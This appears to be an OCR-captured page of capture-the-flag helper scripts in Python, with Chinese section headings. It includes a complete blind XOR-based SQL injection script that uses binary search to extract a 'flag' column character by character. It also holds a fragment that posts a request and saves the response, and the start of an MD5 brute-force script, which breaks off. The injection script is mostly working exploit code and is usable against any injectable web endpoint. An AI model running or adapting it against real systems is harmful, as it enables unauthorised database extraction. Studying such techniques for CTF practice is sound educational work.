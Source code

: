 ```
        }
path="demo.txt"
response = requests.post(url=url,params=get_params,data=post_params)
if response.status_code==200:
    with open(path,'wb') as f:
        f.write(response.content)
else:
    print("error")

```

### 异或注入
二分法查找
```
import requests
import time
import sys

url = sys.argv[1]
flag = ''

if __name__ == "__main__":

    for i in range(1,100):
        min_n = 33
        max_n = 126
        mid = int((max_n + min_n)/2)
        while True:
            params = {
                'id': '0^'+'(ascii(substr((select(flag)from(flag)),{},1))>{})'.format(i,mid) 
            }
            
            print(params) 
            response = requests.post(url=url,  data=params).text
            time.sleep(0.005) 
            print(response)
            if 'Hello' in response :
                min_n = mid
                mid = int((max_n + min_n)/2)
            else:
                max_n = mid
                mid = int((max_n + min_n)/2)
            print('max number is {},min number is {},mid number is {}'.format(max_n,min_n,mid))
            if (max_n - min_n)<=1:
                flag +=chr(max_n)
                print(flag)
                break
        if '}' in flag:
            break

```
### md5碰撞
```
import multiprocessing
import hashlib
import random
import string
import sys

CHARS = string.ascii_letters + string.digits

def cmp_md5(substr, stop_event, str_len, start=0, size=20):
    global CHARS
```